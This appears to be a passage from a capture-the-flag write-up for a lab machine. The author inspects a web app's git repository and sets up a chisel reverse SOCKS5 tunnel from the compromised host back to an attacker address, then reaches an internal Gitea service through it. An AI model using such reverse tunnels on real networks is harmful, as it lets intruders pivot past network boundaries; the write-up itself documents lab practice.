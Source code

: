 So there's a gitea instance, probably not pointing to the flask app though
```bash
svc@busqueda:/var/www/app$ git config --global --add safe.directory /var/www/app
svc@busqueda:/var/www/app$ git log --oneline
5ede9ed (HEAD -> main, origin/main) Initial commit
```

Lets setup some socks5 proxy with chisel
```bash
local # ./chisel-arm server -p 4242 --socks5 --reverse
remote # ./chisel-amd client 10.10.14.39:4242 R:1080:socks
```
```bash
local # curl -x socks5://localhost:1080 -I http://127.0.0.1:3000
HTTP/1.1 200 OK
Set-Cookie: i_like_gitea=f5aafbf458b1e8de; Path=/; HttpOnly; SameSite=Lax
Date: Mon, 01 May 2023 11:37:38 GMT
```
Making a quick foxyproxy config, and we're all set
![foxy.png](foxy.png)  
![root.png](root.png)  


